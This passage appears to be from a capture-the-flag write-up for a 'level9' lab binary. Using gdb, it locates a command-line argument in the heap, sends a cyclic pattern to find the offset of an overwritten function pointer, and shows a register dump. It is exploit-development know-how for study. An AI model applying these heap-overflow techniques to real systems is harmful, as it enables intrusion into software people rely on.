 Now resuming, you know that the `main` instancied 2 **`N` class** and copied the `argv[1]` in the **first one**.  
Allocated memory is located in the **heap** segment.  
Can you find `argv[1]` in **heap**?  

```bash
(gdb) find 0x804a000, 0x806b000, "hello"
0x804a00c
warning: Unable to access target memory at 0x8069412, halting search.
1 pattern found.
```

Oh! nice, now use a cyclic pattern (you can generate it using [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))  
to guess where is the **double dereferenced function address** call at end of main.  

Run program again replacing his argument:

```bash
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Breakpoint 1, 0x0804867c in main ()
```

Breakpoint stopped me again, after calling `setAnnotation` but take a look to next three instructions...  
Referring to instruction `0x0804867c <+136>` in `main`, you see that it load the second instance of the **`N` class** in `eax`  

```bash
(gdb) ni
0x08048680 in main ()
(gdb) info r
eax            0x804a078	134520952
ecx            0x67413567	1732326759
edx            0x804a0d4	134521044
ebx            0x804a078	134520952
esp            0xbffff650	0xbffff650
ebp            0xbffff678	0xbffff678
esi            0x0	0
edi            0x0	0
eip            0x8048680	0x8048680 <main+140>
eflags         0x200287	[ CF PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
